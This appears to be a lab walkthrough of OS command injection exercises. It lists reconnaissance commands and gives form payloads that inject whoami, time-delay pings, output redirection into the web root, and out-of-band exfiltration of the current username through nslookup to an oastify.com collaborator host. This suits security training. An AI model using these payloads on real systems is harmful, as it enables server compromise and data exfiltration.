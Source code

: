 #
| Purpose of command      | Linux |Window |
| ----------- | ----------- |----------- |
| Name of current user     | Whoami      |whoami      |
| OS  | uname -a       |ver        |
| Network configuration    | ifconfig       |ipconfig /all      |
| Network connections    | netstat -an        |netstat -an        |
| Running processes   | ps -ef       |tasklist        |


+ Linux 	Windows
    + Name of current user 	whoami 	whoami

Operating system 	uname -a 	ver

Network configuration 	ifconfig 	ipconfig /all

Network connections 	netstat -an 	netstat -an

Running processes 	ps -ef 	tasklist 
## OS command injection, simple case
+ Injection point 

![os](./img/OS.png)

+ Edit to
```sql
productId=9&storeId=1|whoami
``` 

+ Result

![Os2](./img/os2.png)


## Blind OS command injection with time delays
+ Injection point

![os3](./img/os3.png)

+ Edit to
```sql
csrf=FBV2IgYkUcBBbBB3Ym2rf4jzwzt8u5GC&name=asfasfsa&email=x||ping+-c+10+127.0.0.1||&subject=fasfsaf&message=asfafasf
```

+ Result 
![os4](./img/os4.png)

## Blind OS command injection with output redirection
+ Injection Point

![os5](./img/os5.png)

+ Change to
```sql
csrf=mMJdwPhirm9P31qyprO5FdxcQ0wfMs7Q&name=dasdfisijfh&email=a||ps+-ef>/var/www/images/abcde.txt||&subject=dassad&message=asdfasf
```

+ Result

![os6](./img/os6.png)

![os6](./img/os7.png)

## Blind OS command injection with out-of-band interaction
+ Injection Point

![os8](./img/os8.png)

+ Change to
```sql
csrf=hqgeul0SUvT16iR4Lg3IdWvcwFiNG5hx&name=fasfa&email=||ping+2wzr9h5w9vyrx07wc2j5vhgf66cx0poe.oastify.com||&subject=asfasf&message=asdsad
```

+ Result 

![os9](./img/os9.png)
![os9](./img/os10.png)

## Blind OS command injection with out-of-band data exfiltration
+ Injection Point

![os11](./img/os11.png)

+ Change to
```sql
csrf=1tb7VHZz9g0U9QprXdVIkKwGYN6fhsf4&name=asfasf&email=||nslookup+`whoami`.2wzr9h5w9vyrx07wc2j5vhgf66cx0poe.oastify.com||&subject=fasasfa&message=afasfa
```

+ Result

![os12](./img/os12.png)
![os12](./img/os13.png)